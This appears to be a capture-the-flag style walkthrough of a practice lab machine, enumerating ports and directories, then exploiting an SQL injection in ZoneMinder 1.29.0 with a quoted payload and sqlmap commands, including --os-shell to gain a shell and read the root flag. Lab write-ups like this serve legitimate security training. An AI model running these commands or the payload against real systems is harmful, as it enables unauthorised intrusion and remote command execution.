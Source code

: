 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

# enumeration

Starting with a `nmap` scan to identify the attack surface of the target.

## port scan

```bash
$ nmap -Pn -p- 192.168.133.52
```

The scan shows the following open ports:
- 80 (`http`)
- 8080 (`http`)
- 3305 (`http`)
- 21 (`ftp`)
- 22 (`ssh`)


## gobuster
```bash
$ gobuster dir -u http://192.168.85.52 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 5 -b 404,403
```

> `gobuster` detects the directory `/zm`.
{: .prompt-info }

---

# exploitation
Inside the folder `/zm` on port `80` hides the software `ZoneMinder 1.29.0`.  
Looking for an exploit.
```bash
$ searchsploit zoneminder
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                |  Path
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ZoneMinder 1.24.3 - Remote File Inclusion                                                                                                     | php/webapps/17593.txt
Zoneminder 1.29/1.30 - Cross-Site Scripting / SQL Injection / Session Fixation / Cross-Site Request Forgery                                   | php/webapps/41239.txt
ZoneMinder 1.32.3 - Cross-Site Scripting                                                                                                      | php/webapps/47060.txt
ZoneMinder Video Server - packageControl Command Execution (Metasploit)                                                                       | unix/remote/24310.rb
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

> `Zoneminder 1.29/1.30 - Cross-Site Scripting / SQL Injection / Session Fixation / Cross-Site Request Forgery` seems to be useful as it describes an `SQL` vulnerability.
{: .prompt-info }

```
...
2)SQL Injection
Example Url:http://192.168.241.131/zm/index.php
Parameter: limit (POST)
    Type: stacked queries
    Title: MySQL > 5.0.11 stacked queries (SELECT - comment)
    Payload: view=request&request=log&task=query&limit=100;(SELECT *
FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
Easy exploitable using sqlmap.
...
```

We get the information that the parameter `limit` is vulnerable when performing a `GET` request on `index.php`.  
Exploiting the `SQLi` with `sqlmap`.

```bash
$ sqlmap http://192.168.133.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --technique=s -p limit
```

--- 

# post exploitation

> As we have a stacked based `SQLi` on `MySQL` we can use the `--os-shell` feature of `sqlmap` to get a shell on the target.
{: .prompt-info }

```bash
$ sqlmap http://192.168.133.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --technique=s -p limit --os-shell
```

Get the flag.
```bash
$ cat /root/proof.txt
```

Pwned! <@:-)
